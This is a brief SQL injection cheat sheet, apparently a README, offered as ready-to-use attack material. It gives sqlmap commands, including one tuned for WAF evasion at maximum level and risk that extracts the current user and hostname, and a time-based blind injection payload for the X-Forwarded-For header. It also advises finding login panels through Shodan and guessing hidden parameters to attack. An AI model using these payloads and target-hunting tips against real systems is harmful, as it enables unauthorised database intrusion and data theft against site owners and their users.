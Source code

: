 # sqlpayload

* sqlmap.py -u “<URL>” --batch --banner

* On login / php website try sqli payloads 

* Use shodan for IP based login panels - try sqli

* always try sql injcetion on php site .php ending url guess hidden param with Arjun and try to perform there

* mostly try on hidden param finded with Arjun so try to guess more hidden param as possible throw fuzzing etc

# Bug : Blind SQL Injection
Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z

# waf bypass sqlmap

* sqlmap -u “url” -p parameter --level 5 --risk 3 --dbms="MySQL" --random-agent --test-filter="boolean-based blind"  --current-user --hostname
